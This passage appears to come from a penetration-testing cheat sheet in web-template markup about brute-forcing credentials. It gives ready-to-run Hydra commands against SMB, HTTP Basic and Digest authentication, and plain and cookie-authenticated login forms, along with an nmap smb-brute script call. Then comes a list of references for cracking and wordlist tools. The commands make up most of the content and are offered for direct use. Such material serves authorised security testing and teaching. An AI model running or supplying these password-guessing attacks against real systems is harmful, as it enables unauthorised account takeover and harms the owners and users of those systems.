 {{<details "Parameters"></details>}}

### SMB

#### Hydra [^hydra]
```sh
hydra -v -t1 -l Administrator -P /usr/share/wordlists/rockyou.txt -f {{< param "m.RHOST" >}} smb
```
{{<details "Parameters"></details>}}

#### [smb-brute](https://nmap.org/nsedoc/scripts/smb-brute.html) NSE Script.
```sh
sudo nmap --script smb-brute -p U:137,T:139 {{< param "m.RHOST" >}}
```

## Web Applications

### HTTP Basic Auth

```sh
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt {{< param "m.RDOMAIN" >}} http-head /admin/
```

### HTTP Digest

```sh
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt {{< param "m.RDOMAIN" >}} http-get /admin/
```

### HTTP POST Form

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt {{< param "m.RDOMAIN" >}} https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed"
```

{{<details "Parameters"></details>}}

### HTTP Authenticated POST Form

Append the `Cookie` header
with the session id
to the options string,
e.g.,
`:H=Cookie\: security=low; PHPSESSID=if0kg4ss785kmov8bqlbusva3v`.
[^hydra]

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt {{< param "m.RDOMAIN" >}} https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v"
```

## Miscellaneous


[^brute-force-wiki]: Contributors to Wikimedia projects. “Brute-Force Search - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 13 Oct. 2002, https://en.wikipedia.org/wiki/Brute-force_search.
[^cewl]: digininja. “GitHub - Digininja/CeWL: CeWL Is a Custom Word List Generator.” GitHub, https://github.com/digininja/CeWL/.
[^cupp]: Mebus. “GitHub - Mebus/Cupp: Common User Passwords Profiler (CUPP).” GitHub, https://github.com/Mebus/cupp.
[^crunch]: “Crunch - Wordlist Generator Download.” SourceForge, https://sourceforge.net/projects/crunch-wordlist/.
[^john]: magnumripper. “JohnTheRipper.” GitHub, https://github.com/magnumripper/JohnTheRipper.
[^hydra]: Heuse, Marc. “GitHub - Vanhauser-Thc/Thc-Hydra: Hydra.” GitHub, https://github.com/vanhauser-thc/thc-hydra. Accessed 12 May 2020.
[^medusa]: “Foofus Networking Services - Medusa.” Foofus.Net | Foofus.Net Advanced Security Services Forum, http://foofus.net/goons/jmk/medusa/medusa.html.
[^testing-bf-owasp]: “Testing for Brute Force (OWASP-AT-004).” OWASP, https://wiki.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004).